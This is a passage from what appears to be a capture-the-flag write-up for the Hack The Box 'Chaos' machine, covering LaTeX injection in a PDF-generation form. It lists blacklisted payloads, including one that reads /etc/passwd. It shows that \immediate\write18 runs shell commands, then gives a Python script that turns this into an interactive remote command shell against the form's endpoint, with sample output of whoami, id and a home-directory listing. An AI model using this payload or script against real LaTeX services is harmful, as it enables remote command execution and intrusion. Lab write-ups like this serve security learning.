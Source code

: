 There's a few commands that are blacklisted, like:
 - `\input{/etc/passwd}`
 - `\include{password}`

 ![](/assets/images/htb-writeup-chaos/blacklisted.png)

 However the `\immediate\write18{whoami}` command is allowed. The output contains extra stuff but we can see that the `whoami` command was executed:

 ![](/assets/images/htb-writeup-chaos/rce.png)

I wrote a quick python script that sends the commands using the method above and also cleans up the output with some regex:

```python
{% raw %}
import re
import requests

headers = {
	'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
	'X-Requested-With': 'XMLHttpRequest',
	'Cookie': 'redirect=1'
}

while (True):
	cmd = raw_input('> ')

	data = {
		'content': '\\immediate\\write18{%s}' % cmd,
		'template': 'test1'
	}

	r = requests.post('http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ajax.php', headers=headers, data=data)
	out = r.text
	m = re.search('.*\(/usr/share/texlive/texmf-dist/tex/latex/amsfonts/umsa.fd\)\n\(/usr/share/texlive/texmf-dist/tex/latex/amsfonts/umsb.fd\)(.*)\[1', out, re.MULTILINE|re.DOTALL)
	if m:
		print m.group(1)
{% endraw %}        
```

The output of the script looks like this:

```
# python crapshell.py 
> whoami
www-data
 
> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
 
> ls -l /home
total 8
drwx------ 6 ayush ayush 4096 Dec 16 03:32 ayush
drwx------ 5 sahay sahay 4096 Nov 24 23:53 sahay
```
